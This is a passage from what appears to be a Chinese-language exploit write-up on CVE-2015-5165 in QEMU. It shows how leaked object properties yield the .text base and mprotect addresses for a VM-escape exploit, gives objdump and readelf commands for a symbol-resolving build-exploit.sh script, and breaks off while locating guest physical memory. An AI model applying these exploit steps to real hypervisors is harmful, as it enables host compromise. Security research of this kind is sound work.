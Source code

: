 ![](https://raw.githubusercontent.com/jiayy/images/master/cve-2015-5165/cve-2015-5165-5.png)

注意： qemu_get_leaked_object_property 函数的行 342 ~ 355 是为了增加匹配的精确度， 比如 4 个符号都匹配到的 object 会认为比 3 个符号匹配到的 object 更可信

然后，得到了某个符号的实际加载地址后， 就可以换算出 .text 的实际加载地址， 以 get 为例：

```c
text = leak_object->get - (object_ref.get - TEXT_ADDR);
```

最后， 得到了 .text 的加载基地址后， 可以算出需要的其他符号的实际地址, 如:

```c
mprotect_addr = text + (mprotect_ADDR - TEXT_ADDR);
```

### 5.2 build-exploit.sh 脚本
<span id="cve-2015-5165-tool"></span>

上面提到了 build-exploit.sh, 它是一个工具脚本，用来获取一些符号的（相对）地址

分两种，

- 一种是静态符号， 以 property_get_bool 为例： 

```bash
objdump -d -j .text qemu-system-x86_64  > text
cat text | grep property_get_bool | awk '{print $1}'
```

- 一种是动态符号， 以 mprotect 为例：

```bash
objdump -d -j .plt qemu-system-x86_64  > plt
object -R qemu-system-x86_64 | grep mprotect | awk '{print $1}' => symbol_reloc 
cat plt | grep symbol_reloc | sed 's/^0*//')" | awk '{print $1}' | sed 's/:$//'
```

注意：[原始的](http://www.phrack.org/papers/vm-escape-qemu-case-study.html) build-exploit.sh 有一个问题， 它获取 plt 段是通过下面的命令行：

```bash
plt=$(readelf -S $binary | grep plt | tail -n 1 | awk '{print $2}')
```

这样获取到的是 .plt.got 段，在我的环境里， mprotect 等系统函数符号没有在 .plt.got 这个段，而是在 .plt 这个段

所以我将这个脚本改成了 [build-exploit.sh](https://github.com/jiayy/android_vuln_poc-exp/blob/master/EXP-2015-7504/build-exploit.sh)

### 5.3 获取 phymem 地址
<span id="cve-2015-5165-getphymem"></span>

guest 的物理内存在 qemu 进程上通过分配一块单独的内存区实现， 这块内存在 qemu 进程的起始地址叫 phy_mem, 如下：

![](https://raw.githubusercontent.com/jiayy/images/master/cve-2015-5165/cve-2015-5165-6.png)

phy_mem 的地址获取需要通过搜索溢出的内存区来确定, 算法如下：
